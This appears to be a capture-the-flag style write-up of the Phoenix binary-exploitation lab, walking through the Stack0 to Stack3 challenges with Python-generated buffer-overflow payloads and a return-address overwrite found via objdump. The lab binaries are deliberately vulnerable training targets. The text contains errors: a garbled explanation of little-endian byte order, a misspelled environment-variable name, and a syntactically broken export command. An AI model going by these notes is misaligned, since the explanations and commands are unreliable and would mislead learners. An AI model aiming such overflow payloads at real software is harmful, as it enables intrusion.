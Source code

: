 # Phoenix: is basic binar exploitation challenge:

# Note: challenges are located in /opt/phoenix/amd64


## Stack0:
- gets take un check data which could be used to create the buffer over flow:

```
python -c 'print("A"*70)' | ./stack_zero

```

## Stack1:

- The challenge is similar to the above challenge but one has to look for following things:
  1- read the little-Endians -> which store data from large to smaller values, so after the overflow provide the variables value in reverse order
  2- In the code the user provided input is taken as the argument in the for of ``` char ***argv ``` which is then copied to the buffer of length 64 buffer[64]:
  
  ```
   strcpy(locals.buffer, argv[1]);
  ```
  
  ==Note==: The file takes the input as the argument so we can not pass as the pipe it will give us the error instead we will do this:
  ```
  /stack-one $(python -c 'print("A" * 65 + "\x62\x59\x6c\x49")')
  
  ```
## Stack2:
- In this challenge code is using the envirnment variable with the name of ==ExploitateEducation== to be passed as the argument in the stack.
- so in order make the buffer overflow happen we will do :
```
export ExploitEducation = $(python -c 'print("A" * 65 + \x0a\x09\x0a\x0d)')

```
Simply run the function and we will have the over flow.

## stack3:

- In the stack three one has to first find the address of the complete_level function:
```
objdump -d ./stack-three | grep complete_level
000000000040069d <complete_level>:

```
```
0x40069d
python -c 'print "A" * 64 + "\x9d\x06\x40"' | ./stack-three
```
